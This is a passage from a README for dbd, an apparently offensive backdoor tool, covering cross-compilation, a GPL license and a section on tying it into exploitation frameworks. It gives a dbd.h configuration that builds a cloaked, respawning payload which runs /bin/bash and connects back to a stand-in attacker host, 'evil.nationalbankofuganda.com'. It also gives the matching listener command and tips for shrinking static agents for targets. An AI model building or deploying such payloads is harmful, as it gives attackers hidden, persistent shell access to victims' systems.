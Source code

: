 will do the same thing on a Linux system that

	$ make mingw

would do on a win32 system with mingw/msys installed on it.

Right now all cross-compile options are built with Kali Linux in mind, but should work on any *nix with a little love.  If you have mingw32-gcc installed and make won't build, edit the WCC variable at the top of the Makefile and put the path to your mingw32-gcc binary.  

As of dbd-1.5 you can use any crossbuild toolchain to compile dbd by setting the toolchain prefix as CROSS_COMPILE.  For example, building an arm version is as easy as:

	$ make unix CROSS_COMPILE=arm-linux-gnueabi-

##ADVANCED WIZARDRY

If you wish to integrate dbd with an exploitation framework, you can write a module that generates a custom dbd.h with configuration options specific to your target.  Anything not explicitly #defined in this file will still use the defaults so you don't have to write everything in the header.  Example: have a file rm dbd.h and replace with:

```c
#define DOLISTEN 0
#define HOST "evil.nationalbankofuganda.com"
#define PORT 995
#define EXECPROG "/bin/bash"
#define RESPAWN_ENABLED 1
#define RESPAWN_INTERVAL 900
#define QUIET 1
#define CLOAK 1
#define SHARED_SECRET "customcrypto"
```

then call make <target options> to build an auto connecting payload with cloaking and respawning that connects back to a listening dbd agent on evil.nationalbankofuganda.com running with the options:

	$ dbd -l -p 995 -k customcrypto

Another advanced trick is to compile dbd using dietlibc or uClibc.  to compile a dietlibc linux dbd agent, use:

	$ make unix CROSS_COMPILE="diet -Os "

Pay attention to the space after the s in the string.  This allows the Makefile to add gcc with the standard CFLAGS and LDFLAGS so your agent builds properly.  The advantage of using dietlibc is that it produces a very tiny 100% static executable for the target environment (around 70K for a linux dbd agent before packing as opposed to the standard 700K+ with glibc and gcc -static).  Using uClibc is even easier, since you just set the crossbuild prefix for your toolchain under CROSS_COMPILE.

##LICENSE  
dbd Copyright (C) 2013 Kyle Barnthouse kbarnthouse@hephaestussec.com

This program is free software; you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation; either version 2 of the License, or (at your option) any later version.

This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License for more details.
